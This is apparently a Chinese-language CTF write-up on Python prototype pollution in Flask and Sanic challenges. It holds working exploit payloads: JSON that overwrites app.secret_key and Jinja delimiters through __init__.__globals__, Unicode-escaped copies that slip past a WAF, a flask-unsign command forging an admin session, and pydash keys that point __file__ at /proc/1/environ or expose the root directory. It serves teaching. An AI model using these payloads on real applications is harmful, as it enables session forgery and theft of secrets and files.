 原型链
在Pyton中每个对象都有一个原型，原型上定义了对象可以访问的属性和方法。当对象访问属性或方法时，会先在自身查找，如果找不到就会去原型链上的上级对象中查找，原型链污染攻击的思路是通过修改对象原型链中的属性，使得程序在访问属性或方法时得到不符合预期的结果。
原型链污染和JavaScript的原型链污染差不多，都是需要merge 函数来修改父类的属性。
python中pydash也可以打原型链。

## **flask的原型链污染**
一个注册接口，默认传递参数是form
```
 "username": "test"&"password": "test",
```
已知登录后默认的jwt中is_admin:0

我们可以传递一个json:
```
{
  "username":"test",
  "password":"test",
  "is_admin":1
}
```
直接变成管理员。


^
还可以利用原型连污染，覆盖掉全局变量中的jwt的SECRET_KEY的值
```
{
    "username": "test",
    "password": "test",
    "__init__": {"__globals__": {"app": {"config": {"SECRET_KEY": "123456"}}}}
}
```
这样就可以伪造flask的jwt。
```
flask-unsign --sign --cookie "{'is_admin': 1, 'username': 'test1'}" --secret  '123456'
 
eyJpc19hZG1pbiI6MSwidXNlcm5hbWUiOiJ0ZXN0MSJ9.ZzYYAg.hqQmeTq4GCo4yfAofb0pngi0tpA
```


^
## **对jinja模板用的[# flag #]进行原型链污染**
污染 flask key 和 模板字符串的闭合规则。

因为是JSON，遇到waf还可以利用 JSON 解析 Unicode 来绕过 waf
```
app = Flask(__name__)
app.secret_key = generate_random_md5()

def merge(src, dst):
    # 可能造成原型链污染的函数
    for k, v in src.items():
        if hasattr(dst, '__getitem__'):
            if dst.get(k) and type(v) == dict:
                merge(v, dst.get(k))
            else:
                dst[k] = v
        elif hasattr(dst, k) and type(v) == dict:
            merge(v, getattr(dst, k))
        else:
            setattr(dst, k, v)

@app.route('/',methods=['POST'])
def index():
    username = request.form.get('username')
    password = request.form.get('password')
    session["username"] = username
    session["password"] = password
    if request.data:
        if filter(str(request.data)):
            return "NO POLLUTED!!!YOU NEED TO GO HOME TO SLEEP~"
        else:
            merge(json.loads(request.data), Evil)  #这里直接json.load可能造成原型链污染

@app.route('/admin',methods=['POST', 'GET'])
def templates():
    username = session.get("username", None)
    password = session.get("password", None)
    if username and password:
        if username == "adminer" and password == app.secret_key:
            return render_template("flag.html", flag=open("/flag", "rt").read())
        else:
            return "Unauthorized"
    else:
        return f'Hello,  This is the POLLUTED page.'

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=5000)


flag.html内容：
<body>
    这又是什么jinja语法啊！
    [#flag#]
</body>
```

这里要求password 等于全局变量app.secret_key后，可以通过flag.html带出flag。
flag.html里jinja模板用的[# flag #]，不是默认的{{ ... }}，不会渲染变量，这里需要加个jinja_env指定模板的闭合符号为[# #]让其可以像{{}}一样可以渲染。
```
{"__init__":
	{"__globals__":
		{"app":
			{
				"secret_key":"123456",
				"jinja_env":{
					"variable_start_string":"[#",
					"variable_end_string":"#]"
				}
			}
		}
	}
}
```
这里直接根目录json请求，遇到waf，是json，直接unicode编码绕过
```
{"\u005f\u005f\u0069\u006e\u0069\u0074\u005f\u005f":
	{"\u005f\u005f\u0067\u006c\u006f\u0062\u0061\u006c\u0073\u005f\u005f":
		{"\u0061\u0070\u0070":
			{
				"secret\u005fkey":"123456",
				"jinja\u005f\u0065\u006e\u0076":{
					"variable\u005fstart\u005f\u0073\u0074\u0072\u0069\u006e\u0067":"[#",
					"variable\u005fend\u005f\u0073\u0074\u0072\u0069\u006e\u0067":"#]"
				}
			}
		}
	}
}
```
此时继续根目录POST传递获取jwt
```
username=adminer&password=123456
```
获取jwt再访问/admin就有正确的session了



^
## **其他题__file__**
```
data = {
	"username" : "admin", 
	"password" : "123456", # 在data中定义username和password保证data可以进入merge函数中
	"\u005F\u005F\u0069\u006E\u0069\u0074\u005F\u005F": { # 在check中可以看到有black_list,__init__被过滤了，使用unioncode进行绕过
		"__globals__" : {
			"__file__": "../../../proc/1/environ" # 大部分的flag都隐藏在环境变量中
		}
	}
}
```


^
## **污染__file__**
```


app.static("/static/", "./static/")


@app.route("/src")
async def src(request):
    return text(open(__file__).read())


@app.route("/admin", methods=['GET', 'POST'])
async def admin(request):
    if request.ctx.session.get('admin') == True:
        key = request.json['key']
        value = request.json['value']
        if key and value and type(key) is str and '_.' not in key:
            pollute = Pollute()
            pydash.set_(pollute, key, value)
            return text("success")
        else:
            return text("forbidden")

    return text("forbidden")
```
POST请求体传递，
```
这里不让传递__. 但是pydash里会将\\变成\ 和\.变成. 所以直接传递\\\\.

{"key": "__class__\\\\.__init__\\\\.__globals__\\\\.__file__", "value": "/24bcbd0192e591d6ded1_flag"}


{
  "key": ".__init__\\\\.__globals__\\\\.__file__",
  "value": "/proc/1/environ"
}
```

还可以污染static目录开启，并指定目录为linux根目录，以此发现flag文件
```
app.static("/static/", "./static/")
```
```
# 开启目录浏览
data = {"key": "__class__\\\\.__init__\\\\.__globals__\\\\.app.router.name_index.__mp_main__\.static.handler.keywords.directory_handler.directory_view", "value": True}

# 污染目录路径 将目录设置在根目录下
data = {"key": "__class__\\\\.__init__\\\\.__globals__\\\\.app.router.name_index.__mp_main__\.static.handler.keywords.directory_handler.directory._parts", "value": ['/']}

r = s.post(url + '/admin', json=data)
print(r.text)

# 获取根路径
r = s.get(url + '/static/')
print(r.text)
```
